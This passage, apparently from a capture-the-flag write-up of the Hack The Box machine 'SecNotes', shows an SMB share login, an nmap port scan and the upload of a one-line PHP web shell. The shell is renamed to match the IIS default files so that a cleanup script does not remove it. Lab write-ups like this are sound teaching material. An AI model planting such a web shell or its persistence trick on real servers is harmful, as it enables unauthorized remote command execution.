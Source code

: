 We try connecting to the share we found as the user tyler

{% highlight plaintext %}
root@kali:~/HTB/secnotes# smbclient //10.10.10.97/new-site -I 10.10.10.97 -U tyler
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\tyler's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sun Aug 19 19:06:14 2018
  ..                                  D        0  Sun Aug 19 19:06:14 2018
  iisstart.htm                        A      696  Thu Jun 21 16:26:03 2018
  iisstart.png                        A    98757  Thu Jun 21 16:26:03 2018

                12978687 blocks of size 4096. 8067496 blocks available
smb: \> 
{% endhighlight %}

We're in. It seems like this is a default site for IIS, but if we browse to http://10.10.10.97/iisstart.htm, we get a 404

Let's do a full scan of the server and see if there are any other ports we can find open

{% highlight plaintext %}
# Nmap 7.70 scan initiated Thu Aug 30 15:42:56 2018 as: nmap -p- -oA nmap/full secnotes.htb
Nmap scan report for secnotes.htb (10.10.10.97)
Host is up (0.17s latency).
Not shown: 65532 filtered ports
PORT     STATE SERVICE
80/tcp   open  http
445/tcp  open  microsoft-ds
8808/tcp open  ssports-bcast

# Nmap done at Thu Aug 30 15:54:34 2018 -- 1 IP address (1 host up) scanned in 698.21 seconds
{% endhighlight %}

Port 8808 is open. If we connect to it, this could be the iis service for the smb folder we have access to

We know this server is setup for PHP, from the login.php of the secnotes application. So let's try some basic php command execution and see if it works.

Create a file called rev.php with the following contents and upload it to the share (using the mput command)
{% highlight php %}
<?php system($_GET['cmd']); ?>
{% endhighlight %}

![]({{ "assets/secnotes/4.png" | absolute_url }})

We have command execution. But it dissappears after a while. It turns out there is a scheduled powershell script to remove anything that doesn't match `iisstart.*`. So we rename out command shell
to `iisstart.php` and it is persistant
